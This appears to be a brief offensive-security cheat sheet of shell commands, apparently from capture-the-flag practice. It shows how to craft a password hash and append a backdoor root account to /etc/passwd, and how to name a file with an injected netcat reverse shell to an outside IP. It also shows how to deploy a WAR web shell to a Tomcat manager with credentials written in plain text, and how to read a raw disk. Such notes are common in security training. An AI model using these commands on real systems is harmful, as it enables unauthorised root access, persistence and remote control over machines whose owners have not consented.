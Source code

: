 # Others
---

### Generating passwords to replace /etc/passwd:

mkpasswd
```bash
mkpasswd -m sha-256 -S cbbncbbn
```

```shell
cbbn:$5$cbbncbbn$hDpERmcSs2cHfAi37wrM5LYXUmqHOu.iKYAbFQmd4q.:0:0:root:/root:/bin/bash
```
 `cbbn:passw0rd123`

OpenSSL:
```bash
openssl passwd passw0rd123
Warning: truncating password to 8 characters
kW2ES4eAmzOLM

echo "n00b:kW2ES4eAmzOLM:0:0:root:/root:/bin/bash" >> /etc/passwd
```

-------------

Retrive erased media mounts:
```bash
cat /dev/sdb
```


Creating a file with the name as reverse shell:
```bash
touch -- ; nc 10.10.14.16 80 -e /bin/bash
```


Curl to upload a file:
```bash
curl -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/cbbnn" --upload-file shell1.war
```

$PATH variable
```bash
echo $PATH

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:/root/.local/bin:$PATH
```


